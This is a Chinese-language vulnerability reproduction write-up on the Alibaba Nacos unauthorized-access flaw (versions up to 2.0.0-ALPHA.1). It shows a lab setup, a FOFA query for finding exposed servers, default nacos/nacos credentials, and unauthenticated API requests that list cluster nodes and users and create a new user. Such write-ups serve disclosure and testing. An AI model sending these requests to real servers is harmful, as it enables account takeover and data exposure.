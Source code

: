 # Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

<a-checkbox checked>Nacos <= 2.0.0-ALPHA.1</a-checkbox></br>

## FOFA

<a-checkbox checked>title="Nacos"</a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1" description="" showIcon>
</a-alert>
<br/>

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```

默认账号密码 **nacos/nacos**

![img](../../../.vuepress/public/img/nacos-1.png)



## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论



https://github.com/alibaba/nacos/issues/1105



![img](../../../.vuepress/public/img/nacos-2.png)



![img](../../../.vuepress/public/img/nacos-3.png)



这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问



![img](../../../.vuepress/public/img/nacos-4.png)



退出用户后在前台访问这个 url

```
/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=
```

![img](../../../.vuepress/public/img/nacos-5.png)



可以发现以及泄露了 **ip节点** 等数据,同样我们查看用户列表的请求并在前台访问

```
/nacos/v1/auth/users?pageNo=1&pageSize=9
```

![img](../../../.vuepress/public/img/nacos-7.png)



![img](../../../.vuepress/public/img/nacos-6.png)



这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息

我们尝试创建用户并抓包

![img](../../../.vuepress/public/img/nacos-8.png)



返回下列创建成功



```plain
{"code":200,"message":"create user ok!","data":null}
```

同样的我们简化请求

```plain
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```



![img](../../../.vuepress/public/img/nacos-9.png)



![img](../../../.vuepress/public/img/nacos-10.png)